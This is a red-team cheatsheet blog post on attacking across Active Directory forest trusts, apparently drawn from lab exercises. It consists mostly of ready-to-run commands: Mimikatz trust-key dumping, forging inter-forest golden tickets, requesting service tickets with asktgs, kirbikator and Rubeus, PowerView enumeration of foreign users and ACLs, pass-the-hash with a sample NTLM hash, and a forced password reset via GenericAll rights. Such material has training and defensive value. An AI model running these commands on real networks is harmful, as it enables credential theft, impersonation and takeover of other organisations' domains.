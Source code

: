 ```yaml
---
title: Across Forests cheatsheet
subtitle: Active Directory forests are the highest level of security boundary for network objects in the Active Directory tree and forest structure. Within this Active Directory hierarchy, a forest is considered the most important logical container in an Active Directory configuration.

# Summary for listings and search engines
summary: Active Directory forests are the highest level of security boundary for network objects in the Active Directory tree and forest structure. Within this Active Directory hierarchy, a forest is considered the most important logical container in an Active Directory configuration.

# Link this post with a project
projects: []

# Date published
date: '2022-09-15T00:00:00Z'

# Date updated
lastmod: '2022-09-15T00:00:00Z'

# Is this an unpublished draft?
draft: false

# Show this page in the Featured widget?
featured: false

# Featured image
# Place an image named `featured.jpg/png` in this page's folder and customize its options here.
image:
  caption: 'Image credit: [**Giovanni Pecoraro**](https://unsplash.com/photos/CpkOjOcXdUY)'
  focal_point: ''
  placement: 2
  preview_only: false

authors:
  - admin

tags:
  - Red Teaming
  - Windows
  - Active Directory
  - Forests
  
categories:
  - Cyber Security
  - Red Teaming

---
```


## Using Trust Tickets

Trust relationship across forests needs to be established (are not implicit) since a forest is a security boundary. We can only access resources and/or services that have been shared with the domain we have compromised (our source domain). Use e.g BloodHound to look for foreign group memberships between forests.

1. Once again, we require the trust key for the inter-forest trust:
    
    ```powershell
    # Invoke-Mimikatz
    Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName "cyberlab-dc.cyberlab.cybercorp.local"
    # or
    Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName "cyberlab-dc.cyberlab.cybercorp.local"
    ```
    
2. An inter-forest TGT can be forged:
    
    ```powershell
    # Invoke-Mimikatz
    Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:cyberlab.cybercorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /rc4:cd3fb1b0b49c7a56d285ffdbb1304431 /service:krbtgt /target:evilcorp.local /ticket:C:\AD\Tools\kekeo_old\trust_forest_tkt.kirbi
    ```
    
3. Get a TGS for a service (CIFS below) in the target domain by using the forged trust ticket. Tickets for other services (like HOST and RPCSS for WMI, HOST and HTTP for PowerShell Remoting and WinRM) can be created as well.
    
    ```powershell
    # asktgs.exe
    .\asktgs.exe C:\AD\Tools\kekeo_old\trust_forest_tkt.kirbi CIFS/evilcorp-dc.evilcorp.local
    ```
    
4. Use the TGS to access the targeted service.
    
    ```powershell
    # kirbikator.exe
    .\kirbikator.exe lsa .\CIFS.evilcorp-dc.evilcorp.local.kirbi
    ```
    
5. Now you can access the trusted forest shares:
    
    ```powershell
    ls \\evilcorp-dc.evilcorp.local\forestshare
    ```
    
Alternatively, it is possible to use `Kekeo` to ask for the TGS:

```powershell
.\Rubeus.exe asktgs /ticket:C:\AD\Tools\kekeo_old\trust_forest_tkt.kirbi /service:CIFS/evilcorp-dc.evilcorp.local /dc:evilcorp-dc.evilcorp.local /ptt
```

## Search for Foreign Security Prinicpals

1. To search for Foreign Security Principals (users who have joined groups in the trusted domain but are part of the first domain) we can use the below PowerView command:
    
    ```powershell
    # PowerView
    Find-ForeignUser -Domain "evilcorp.local" -Verbose
    Find-ForeignGroup -Domain "evilcorp.local" -Verbose
    ```
    
2. We get an ObjectSID that we have to search in our current domain to see if it exists:
    
    ```powershell
    # PowerView
    Get-NetUser | ?{$_.objectsid -eq "S-1-5-21-738119705-704267045-3387619857-1275"}
    ```
    
3. The ObjectSID corresponds to STUDENT2. Let’s impersonate STUDENT2 who is a user of the domain cybercorp.local:
    
    ```powershell
    # Invoke-Mimikats
    Invoke-Mimikatz -Command '"sekurlsa::pth /user:STUDENT2 /domain:cybercorp.local /ntlm:6b164d3b190489426e9bcb4a01df5b53 /run:powershell.exe"'
    ```
    
4. Then we can access the other forest:
    
    ```powershell
    ls \\evil-dc.evilcorp.local\c$
    ```
    
## Search for interesting ACLs

1. Search for interesting ACLs in the evilcorp.local forest filtering the results belonging to users in our current domain:
    
    ```powershell
    Invoke-ACLScanner -Domain evilcorp.local | ?{$_.IdentitySID -match "S-1-5-21-738119705-704267045-3387619857"}
    ```
    
2. The user STUDENT1 in our cyberlab.cybercorp.local has GenericAll rights on STUDENT3 in evilcorp.local. This means, interesting stuff, like password reset can be done on STUDENT3 (using Powerview dev):
    
    ```powershell
    # PowerView_dev
    Set-DomainUserPassword -Identity STUDENT3 -AccountPassword (ConvertTo-SecureString "Password@123" –AsPlainText -Force) -Domain evilcorp.local -Verbose
    ```
---